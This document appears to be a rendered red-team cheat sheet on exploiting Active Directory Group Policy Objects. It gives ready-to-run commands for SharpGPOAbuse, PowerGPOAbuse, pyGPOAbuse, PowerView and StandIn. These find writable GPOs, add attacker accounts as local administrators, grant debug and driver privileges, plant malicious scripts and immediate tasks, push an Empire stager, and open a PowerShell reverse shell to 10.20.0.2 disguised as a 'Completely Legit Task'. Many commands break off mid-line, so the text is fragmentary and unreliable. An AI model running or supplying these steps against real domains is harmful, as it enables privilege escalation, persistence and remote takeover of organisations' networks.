 # Group Policy Objects (GPO) Exploitation

## Tools: Bloodhound, PowerGPOAbuse, SharpGPOAbuse, pyGPOAbuse, Powerview, StandIn

## Location stored: SYSVOL directory

### Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

### GPO Prioritization: Organization Unit > Domain > Site > Local

### GPO are stored in the DC in \\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\ , inside two folders User and Machine. If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at Machine\Preferences\ScheduledTasks .

### Domain members refresh group policy settings every 90 minutes with a random offset of 0 to 30 minutes but it can locally be forced with the following command: 

    gpupdate /force .

## Finding vulnerable GPO

### Look a GPLink where you have the Write right.

    Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -like "*WriteProperty*" }

#### 1) 

    runas /netonly /user:DOMAIN\AD_USERNAME cmd.exe

#### 2) 

    dir \\DOMAIN\sysvol

#### 3) mmc

#### 4) File -> Add/Remove Snap-in

#### 5) Group Policy Management then click Add

#### 6) OK

#### 7) Navigate to GPO our user has permission to modify

#### 8) Right-click on GPO and select edit

### Add our account to local groups 

#### 1) Expand Computer Configuration 

#### 2) Expand Policies

#### 3) Expand Windows Settings

#### 4) Expand Security Settings

#### 5) Right-click on Restricted Groups and select Add Group

#### 6) Click browse, enter IT Support (example) and click Check Names

#### 7) Click OK twice

#### 8) On second filter, add Administrators and Remote Desktop Users groups

#### 9) Apply and OK then WAIT FOR 15 MINUTES FOR THE GPO TO BE APPLIED

## SharpGPOAbuse https://github.com/FSecureLABS/SharpGPOAbuse

#### 1) Build and configure SharpGPOAbuse

    Install-Package CommandLineParser -Version 1.9.3.15

    $ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.

####  2) Adding User Rights

    .\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight"

#### 3) Adding a Local Admin

    .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

#### 4) Configuring a User or Computer Logon script

    .\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents

#### 5) Configuring a Computer or User Immediate Task

### /!\ Intended to "run once" per GPO refresh, not run once per system

    .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command

    .\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\

## PowerGPOAbuse https://github.com/rootSySdk/PowerGPOAbuse

#### 1) Run the module

    PS> . .\PowerGPOAbuse.ps1

#### 2) Adding a localadmin

    PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 3) Assign a new right

    PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 4) Adding a New Computer/User script

    PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get

#### 5) Create an immediate task

    PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments

## pyGPOAbuse https://github.com/Hackndo/pyGPOAbuse

#### 1) Add john user to local administrators group (Password: H4x00r123..)

    ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

#### 2) Reverse shell

    ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

-powershell \
-command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\
-taskname "Completely Legit Task" \
-description "Dis is legit, pliz no delete" \
-user

## Powerview

#### 1) Enumerate GPO

    Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

#### 2) New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO

    New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments

## StandIn https://github.com/FuzzySecurity/StandIn

#### 1) Add a local administrator

    StandIn.exe --gpo --filter Shards --localadmin user002

#### 2) Set custom right to a user

    StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege

#### 3) Execute custom command

    StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK

